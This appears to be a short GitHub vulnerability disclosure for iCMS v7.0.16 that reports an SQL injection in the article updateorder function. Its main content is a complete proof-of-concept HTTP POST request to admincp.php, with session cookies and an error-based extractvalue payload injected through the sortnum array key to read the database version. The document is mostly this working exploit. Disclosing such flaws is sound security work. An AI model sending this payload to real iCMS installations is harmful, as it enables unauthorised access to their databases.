



# icms

iCMS v7.0.16 was discovered to contain a SQL injection vulnerability via the article function.





数组闭合绕过




‍

```、
POST /admincp.php?app=article&do=updateorder&frame=iPHP&CSRF_TOKEN=5ab41ed9ZuyD_cZW2y7hW7YG8QT93SpPxS-qelfOHbPuzqPzddZKuOF-fjh0UCs-5EXHigzGb_dmqyZBbTrxIKJaGYejJ0pjVwZcT5c HTTP/1.1
Host: 127.0.0.1:18888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://127.0.0.1:18888
Connection: close
Referer: http://127.0.0.1:18888/admincp.php?app=article&do=manage
Cookie: Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1692684382; Hm_lpvt_7b43330a4da4a6f4353e553988ee8a62=1692692515; iCMS_tagcategory_tabs=tree; iCMS_ADMIN_AUTH=af854539eT6EX4IxYI8fUu7Q0qVj1oqJryel6H4Sw_gPlwCG9PO77ZFWmnsMoPSS8gTp9g6B4A6rIp5YxVDDIupfgocz_82O9o_Dntv1YDkoWbXzvrVKow; iCMS_article_category_tabs=list; iCMS_captcha=0d56ede9jkQWeNBdDjraC8Jks3O_a_v7eTe-y9xpIO6LOV1p
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

sortnum[1' and (extractvalue(1,concat('～',(select version()),'～')))--+]
```

‍

‍


